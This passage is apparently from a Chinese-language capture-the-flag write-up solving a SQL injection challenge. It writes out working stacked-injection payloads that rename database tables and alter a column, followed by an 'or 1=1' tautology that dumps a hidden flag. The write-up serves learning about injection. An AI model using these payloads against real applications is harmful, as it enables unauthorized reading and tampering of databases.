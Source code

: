 7.到这一步为止可以有多种解法

法一:

对查询语句进行猜解,猜测查询语句如下：

select * from `words` where id = '$inject';

或者

select id,data from `words` where id='$inject';

如此看来目前我们要查询1919810931114514表，而目前可利用的select语句执行在words表，且无法使用堆叠注入执行新的select语句，这就陷入了死循环。

重新分析一下，已有的select语句其实在本题中是可以多次执行的，每次执行不影响表结构，其功能是查询words表中的全部内容。所以我们如果能想办法利用一个堆叠注入将1919810931114514表中的内容转移到words中，然后再使用一次万能密码(’or 1=1#)，就可以得到flag。

复制语句大概长这样

insert into `words` select * from `1919810931114514`

不行insert肯定会被过滤掉，换个思路，其实我还可以把1919810931114514表名改了。

说搞就搞。

1';rename table `words` to `meiyong`;rename table `1919810931114514` to `words`;#

![4c09f81bb31f3302f10e183da6e38efa.png](img/fecfa8773a32257de030b78b29d20786.png)

搞砸了，大概是没有加表名没有``,再来一次，返回结果有变化，但仍然是报错。报错内容提醒我，1919810931114514中本身没有id列，会翻车。

![eb6107071146cd8a66a9711cc846d153.png](img/e796e2e4b9010202e9c671c94e33a17e.png)

重置环境重来，把flag列名改成id，执行没有回显，说明语句顺利执行了。

1';rename table `words` to `meiyong`;rename table `1919810931114514` to `words`;ALTER TABLE `words` CHANGE `flag` `id` VARCHAR(100) ;#

接着再执行万能密码，得到flag。

1‘or 1=1;
